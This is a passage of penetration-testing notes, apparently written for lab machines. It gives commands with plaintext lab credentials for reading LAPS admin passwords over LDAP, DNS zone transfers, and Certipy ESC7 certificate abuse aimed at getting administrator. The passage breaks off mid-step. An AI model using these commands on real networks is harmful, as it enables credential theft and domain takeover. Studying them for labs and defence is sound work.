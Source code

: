 Use found creds to determine if user has LAPS access
```
ldapsearch -x -H "ldap://192.168.188.122" -D "hutch\fmcsorley" -w "CrabSharkJellyfish192" -b "dc=hutch,dc=offsec" '(ms-MCS-AdmPwd=*)' ms-MCS-AdmPwd
```
- If there is ms-MCS-AdmPwd -> use psexec to login with that pass as administrator

### DNS Enum 

[Cheatsheet](https://hacktricks.boitatech.com.br/pentesting/pentesting-dns)
```
dnsenum 192.168.175.122
```

```
dig @$IP axfr internal
```

```
dig ANY @<DNS_IP> <DOMAIN> 
```
### RDP 
Maybe we can see credentials 
```
rdesktop internal
```

### IMAP

Likely need valid credentials before connection
```
telnet 192.168.236.140 143
```

### Certipy
[Reference](https://seriotonctf.github.io/ADCS-Attacks-with-Certipy/)
Search for vulnerable active directory certificates / services on Kali
```
certipy-ad find -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -stdout -vulnerable
```

#### ESC7 Vuln Exploit with Certipy

Add officer raven to be able to manage ca's

```
certipy-ad ca -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -add-officer raven
```

Enable sub-ca template
```
certipy-ad ca -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.10.11.236 -ca manager-dc01-ca -enable-template subca
```

Set upn to administrator and save the private key 
